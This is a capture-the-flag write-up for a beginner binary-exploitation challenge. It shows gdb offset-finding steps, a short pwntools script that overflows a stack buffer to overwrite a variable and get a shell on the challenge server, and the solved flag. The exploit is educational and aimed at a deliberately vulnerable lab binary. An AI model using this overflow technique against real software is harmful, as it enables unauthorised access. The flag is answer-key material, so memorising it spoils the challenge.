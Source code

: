 # beginner-generic-pwn-number-0

<p align="center">
    <kbd><img src="images/pwn0-1.png" caption="Challenge" /></kbd><br/>
</p>

From the source code, I understand that I need to modify the value of inspirational_message_index to -1 (0xffffffff) in order to spawn a shell.

<p align="center">
    <kbd><img src="images/pwn0-2.png" caption="Challenge" /></kbd><br/>
</p>

It compares `rbp-0x8` with 0xffffffffffffffff

<p align="center">
    <kbd><img src="images/pwn0-3.png" caption="Challenge" /></kbd><br/>
</p>

Perform fuzzing:
`$ pattern_create 48`
<p align="center">
    <kbd><img src="images/pwn0-4.png" caption="Challenge" /></kbd><br/>
</p>

View registers
`$ info registers`
<p align="center">
    <kbd><img src="images/pwn0-5.png" caption="Challenge" /></kbd><br/>
</p>

Print the value in `rdp-0x8`
`$ p *0x7fffffffdfc8`
<p align="center">
    <kbd><img src="images/pwn0-6.png" caption="Challenge" /></kbd><br/>
</p>

`$ pattern_offset 0x41304141`
<p align="center">
    <kbd><img src="images/pwn0-7.png" caption="Challenge" /></kbd><br/>
</p>

So, I need to spray 40 random characters and then 0xffffffffffffffff to modify the value of inspirational_message_index variable.

I created a script to perform our exploit.

```
from pwn import *

input = "A"*40 + "\xff\xff\xff\xff\xff\xff\xff\xff"


p = remote("mc.ax", 31199) 
#p = process("./beginner-generic-pwn-number-0")
p.recvuntil("cheer me up")
p.sendline(input)
p.interactive()
```

Run the exploit:
`$ python3 exploit.py`
<p align="center">
    <kbd><img src="images/pwn0-8.png" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}`